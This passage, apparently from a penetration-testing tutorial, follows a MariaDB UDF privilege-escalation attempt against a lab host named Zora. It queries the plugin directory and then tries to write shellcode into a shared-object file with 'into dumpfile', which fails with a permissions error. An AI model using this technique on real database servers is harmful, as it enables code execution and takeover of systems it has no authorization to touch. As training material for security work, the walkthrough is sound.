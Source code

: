 ```bash
MariaDB [(none)]> select @@plugin_dir;
+-------------------+
| @@plugin_dir      |
+-------------------+
| /home/dev/plugin/ |
+-------------------+
1 row in set (0.072 sec)
```

As expected, the plugin directory is in /home/dev/plugin/. Next, we need to output the shellcode to a file on Zora. The original exploit generates a random filename for this, but we can name it whatever we want. The command in Listing 65 tells MariaDB to treat the contents of the _@shell_ variable as binary and to output it to the /home/dev/plugin/udf_sys_exec.so file.

```bash
MariaDB [(none)]> select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';
ERROR 1045 (28000): Access denied for user 'wp'@'%' (using password: YES)
MariaDB [(none)]>
```

Unfortunately, this is where we encounter our first problem. According to the error message above, the wp user does not have permissions to create files.